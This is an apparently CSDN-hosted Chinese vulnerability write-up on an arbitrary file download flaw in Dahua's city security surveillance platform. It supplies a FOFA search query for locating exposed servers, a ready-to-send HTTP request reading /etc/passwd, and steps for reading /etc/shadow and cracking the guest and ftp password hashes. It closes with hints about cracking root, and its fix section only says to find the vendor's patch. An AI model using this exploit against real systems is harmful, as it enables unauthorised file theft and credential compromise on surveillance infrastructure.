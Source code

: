 # 原创
：  漏洞复现--大华城市安防系统平台任意文件下载（poc）

# 漏洞复现--大华城市安防系统平台任意文件下载（poc）

## 免责声明：

**文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打马处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行承担！**

### 一：漏洞描述

大华城市安防监控系统平台管理存在任意文件下载漏洞，攻击者通过漏洞可以下载服务器上的任意文件。

### 二:漏洞影响版本

-大华城市安防系统

### 三：网络空间测绘查询

fofa语句：

```
app="dahua-DSS"

```

### 四：漏洞复现

POC:

```
GET /portal/attachment_downloadByUrlAtt.action?filePath=file:///etc/passwd HTTP/1.1
Host: ip:port
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

```

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/9a02ac66b965d560caee1d2fe717752a.jpeg"/><br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/5d46b6481f3f2e6d0e005e6533fd6330.jpeg"/><br/> 成功读取etc/passwd

### 五：漏洞利用

用户密码存放在etc/shadow下，读取etc/shadow<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/afb2a2910eb2fc9f667390f0006bb395.jpeg"/><br/> 拿去cmd解密<br/> guest<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/5f192118fa4b07c1ea4d54e6494b7acb.jpeg"/><br/> ftp<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/9613b6aba514c38b44dec620c222bc06.jpeg"/><br/> 运气好的话能直接破解root密码，点到为止，拿到密码后可以干什么懂得都懂，这里也是不演示了

### 六：修复方案

自行查询厂商发布补丁
